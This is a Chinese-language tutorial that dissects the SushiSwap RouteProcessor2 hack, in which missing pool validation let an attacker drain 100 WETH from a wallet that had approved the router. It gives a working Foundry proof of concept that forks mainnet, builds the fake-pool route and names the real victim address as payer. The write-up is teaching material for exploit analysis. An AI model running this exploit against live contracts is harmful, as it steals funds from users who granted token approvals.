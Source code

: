 <!--StartFragment-->

为了看的清晰，本文先分析整个事件的攻击原理和流程，然后再去写POC。

# 一. Sushiswap的背景知识

Sushiswap的原理就不细说了，当初完全fork的uniswapV2，抢走了大量的uniswap用户。后来uniswap推出了V3版本，Sushiswap也推出了**自己的**V3的思想。当然了，Sushiswap一直都有自己的创新，这也是它能立足defi的原因。本次攻击的IRouteProcessor2就是一个小创新。



# 二. 攻击原理

## 正常流程：



![5dex_suhiswapV3_3_normalrouter.png](https://img.learnblockchain.cn/attachments/2023/12/6BKxgkmQ656dca07a26c7.png)


上图是正常的流程，但是攻击者往往选择的都是不普通的路。漏洞就在`打包信息`。用户指定具体的pair，sushiSwap 本应该验证用户输入，即这个pair是自己的交易对。但是，sushiSwap没有验证，导致用户可以给出`fake pool`。


## 攻击者的交易流程：


![5dex_suhiswapV3_4_bugrouter.png](https://img.learnblockchain.cn/attachments/2023/12/Y9BvQLpa656dca164e4f0.png)

最终，RouterProcessor2（实现了swapCallback接口），白白给张三转了钱。

## 谁在买单：
bug是sushiwap的，我们已经确定了。问题是这个钱是谁损失的？土豪周公子是谁？
看下面的代码，买单的人是`uniswapV3SwapCallback`的第三个参数 `data`决定的。
`uniswapV3SwapCallback`正常由 `pool` 调用，这里由`攻击合约`调用。

![5dex_suhiswapV3_9_poc4_whoispayer.png](https://img.learnblockchain.cn/attachments/2023/12/mSAC5o8p656dca664fa5b.png)

只要这个 `from` 曾经给`RouteProcessor2`授权过，就可以从 `from`那白白讲钱划走。

具体这个人是谁？不知道，只能说他是一个曾经给`RouteProcessor2`无限授权的倒霉蛋：
https://etherscan.io/address/0x31d3243cfb54b34fc9c73e1cb1137124bd6b13e1


# 三. POC

<!--StartFragment-->

## 准备工作

### 最佳学习资料：[DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs)

[SunWeb3Sec: 3. 自己动手写POC1 (Price Oracle Manipulation)](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/03\_write_your_own_poc)\
[SunWeb3Sec: 4. 自己动手写POC2 - MEV Bot](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/04\_write_your_own_poc/)\
[SunWeb3Sec: 6. 自己动手写POC3 (Reentrancy)](https://github.com/SunWeb3Sec/DeFiHackLabs/tree/main/academy/onchain_debug/06\_write_your_own_poc/)

工程里有大量POC代码，非常推荐！！！

<!--EndFragment-->

### Route变量解析

先看下
https://explorer.phalcon.xyz/tx/eth/0x3610d3e3f2381c73f4bd128df9be90de87482802f30712dd555619b8bf3462a4


![5dex_suhiswapV3_5_poc1.png](https://img.learnblockchain.cn/attachments/2023/12/SrQUEgCm656da3bb13e13.png)

攻击流程简单的令人发指，攻击者加上授权就写了三行代码，就抢走了100个ETH。

流程虽然简单，但是 IRouteProcessor2 的data数据由哪些信息打包，需要提前了解下。


进入phaIcon的debug页面：
https://explorer.phalcon.xyz/tx/eth/0x3610d3e3f2381c73f4bd128df9be90de87482802f30712dd555619b8bf3462a4?line=3&debugLine=3

看看proccessRoute方法的具体入参数：
![5dex_suhiswapV3_6_poc2_paraminfo.png](https://img.learnblockchain.cn/attachments/2023/12/jbdMTLAU656da48a0069f.png)


其余参数直接拷贝即可，关键下面的`route`具体是什么鬼？

```solidity
0x01514910771af9ca656af840dff83e8264ecf986ca01000001affc8c3cd3ecf8839d4731a2335f868733f9ec90000000000000000000000000000000000000000000
```
Route由八个变量构成。

![5dex_suhiswapV3_7_poc3_routeinfo.png](https://img.learnblockchain.cn/attachments/2023/12/CNaNPjYz656dbf326ba83.png)

Route值分解成八个变量为：

![5dex_suhiswapV3_8_poc3_routeinfo2.png](https://img.learnblockchain.cn/attachments/2023/12/vOAE6dpJ656dbf66a369a.png)

值都知道了，下面就可以写代码了：


## 具体写POC

### POC准备信息

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.10;


import "forge-std/Test.sol";
import "./interface.sol";

// @KeyInfo - Total Lost : 100 WETH.
// Attacker : https://etherscan.io/address/0xcff8bdf57f4e62c1d4f82420b8a1cad70d5bf383
// Attack Contract : https://etherscan.io/address/0xaffc8c3cd3ecf8839d4731a2335f868733f9ec90
// Vulnerable Contract : https://etherscan.io/address/0x044b75f554b886a065b9567891e45c79542d7357
// Attack Tx : https://etherscan.io/tx/0x3610d3e3f2381c73f4bd128df9be90de87482802f30712dd555619b8bf3462a4

// @Info
// Vulnerable Contract Code : https://etherscan.io/address/0x044b75f554b886a065b9567891e45c79542d7357#code

// @Analysis
// Twitter Guy :https://twitter.com/BlockSecTeam/status/1644977808450396160
// https://explorer.phalcon.xyz/tx/eth/0x3610d3e3f2381c73f4bd128df9be90de87482802f30712dd555619b8bf3462a4

contract ContractTest is Test{

}

```
### 接口信息

```solidity
interface RouteProcessor2{
    function processRoute(
        address tokenIn,
        uint256 amountIn,
        address tokenOut,
        uint256 amountOutMin,
        address to,
        bytes memory route
    ) external payable returns (uint256 amountOut);

    function uniswapV3SwapCallback(int256 amount0Delta, int256 amount1Delta, bytes calldata data) external;
}
contract ContractTest is Test{
    RouteProcessor2 routeProcessor2 = RouteProcessor2(0x044b75f554b886A065b9567891e45c79542d7357);
    IERC20 WETH = IERC20(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);
    IERC20 LINK = IERC20(0x514910771AF9Ca656af840dff83E8264EcF986CA);
    address PAYER = 0x31d3243CfB54B34Fc9C73e1CB1137124bD6B13E1;

    function setUp() public  {
        vm.createSelectFork('mainnet', 17007839 - 1);
    }
  }
```
### step1 调用RouteProcessor2
```solidity
    function testExploit() public {
        WETH.approve(address(routeProcessor2), type(uint256).max);
        uint8 commandCode = 1;
        uint8 num = 1;
        uint16 share = 0;
        uint8 poolType = 1;
        address pool = address(this);
        uint8 zeroForOne = 0;
        address recipient = address(0);
        bytes memory route = abi.encodePacked(commandCode, address(LINK), num, share, poolType, pool, zeroForOne, recipient);

        routeProcessor2.processRoute(
            0xeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee,
            0,
            0xeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee,
            0,
            0x0000000000000000000000000000000000000000,
            route
        );
    }
```
### step2 在回调的swap(...)中指定受害人地址
```solidity
//被 RouteProcessor2 回调
    function swap(
        address recipient,
        bool zeroForOne,
        int256 amountSpecified,
        uint160 sqrtPriceLimitX96,
        bytes calldata data
    ) external returns (int256 amount0, int256 amount1){
        amount0 = 0;
        amount1 = 0;
        //第二个参数指定付款地址
        bytes memory data2 = abi.encode(address(WETH), PAYER);
        IUniswapV3SwapCallback(msg.sender).uniswapV3SwapCallback( 100e18, amount1, data2 );
    }
```

### 最终

![image.png](https://img.learnblockchain.cn/attachments/2023/12/WdW1R2UT656dd31206aa3.png)
结果，土豪 `0x31d3243cfb54b34fc9c73e1cb1137124bd6b13e1` 热情的替SushiSwap买了单。


<!--EndFragment-->


<!--StartFragment-->

<!--EndFragment-->